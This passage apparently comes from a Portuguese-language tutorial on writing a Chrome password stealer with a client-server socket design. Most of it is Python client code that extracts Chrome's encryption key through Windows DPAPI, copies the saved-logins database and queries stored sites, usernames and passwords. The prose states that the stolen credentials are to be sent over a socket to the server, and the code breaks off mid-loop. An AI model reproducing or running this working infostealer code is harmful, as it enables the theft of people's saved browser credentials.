 ```python
server.close()
```

Já no scrip do client, ao invés de printar em tela as credenciais, precisamos montar uma string com o formato desejado, codificar em bytes e em seguida enviar via socket os dados, ficando desta forma:

```python
# importando as bibliotecas
import os
import json
import base64
import sqlite3
import win32crypt
from Cryptodome.Cipher import AES
import shutil

#diretorio dos arquivos Chrome
path = os.path.expanduser('~') + r"\AppData\Local\Google\Chrome\User Data\\"

# Captura e desencripta a master key
def master():
    with open(path + r"Local State", 'r') as f:
        local_state = f.read()
        local_state = json.loads(local_state)
    key = base64.b64decode(local_state["os_crypt"]["encrypted_key"])
    key = key[5:]
    key = win32crypt.CryptUnprotectData(key, None, None, None, 0)[1]
    return key

# gera cifra
def gera_cifra(key, pw):
    return AES.new(key, AES.MODE_GCM, pw)

# desencripta o password com a cifra
def decrypt_payload(cifra, payload):
    return cifra.decrypt(payload)

# desencripta o password
def decrypt_pwd(password, key):
    try:
        pw = password[3:15]
        payload = password[15:]
        cifra = gera_cifra(key, pw)
        pass_decrypt = decrypt_payload(cifra, payload)
        pass_decrypt = pass_decrypt[:-16].decode()
        return pass_decrypt
    except:
        return "Chrome < 80"


key = master()
db = path + r"Default\Login Data"

# cria uma copia do db, caso o Chrome esteja aberto
shutil.copy2(db, "database.db")

# conecta na copia do database
connect = sqlite3.connect("database.db")
cursor = connect.cursor()

try:
    cursor.execute("select action_url, username_value, password_value from logins")
    for i in cursor.fetchall():
```